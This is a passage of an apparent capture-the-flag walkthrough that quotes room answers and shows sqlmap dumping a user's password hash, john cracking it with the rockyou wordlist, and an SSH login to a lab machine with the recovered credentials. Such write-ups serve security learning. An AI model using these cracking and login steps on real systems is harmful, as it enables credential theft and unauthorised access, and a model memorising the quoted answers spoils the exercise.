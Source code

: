 ```shell-session
do you want to crack them via a dictionary-based attack? [Y/n/q] 

...

what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1

...

do you want to use common password suffixes? (slow!) [y/N] N

...
```

This gives us the password hash for the user: `agent47`.

> In the users table, what is the hashed password?
>
> Answer: `ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14`

> What was the username associated with the hashed password?
>
> Answer: `agent47`

We also obtain entries listed in a table called: `post` under the database: `db`.

> What was the other table name?
>
> Answer: `post`


Now that the password hash for `agent47` is obtained, we can use `john` to crack this and obtain the password for the user. 
```shell-session
$ echo ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 > hash.txt

$ sudo john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
...
videogamer124    (?)     
```

> What is the de-hashed password?
>
> Answer: `videogamer124`

We can now try to log into the server using `ssh` and the credentials: `agent47:videogamer124`.

## Gaining Access

Using the credentials from the reconnaissance phase, we now log into the server's ssh service.
```shell-session
$ ssh agent47@10.10.107.37
...
agent47@10.10.107.37's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

109 packages can be updated.
68 updates are security updates.


```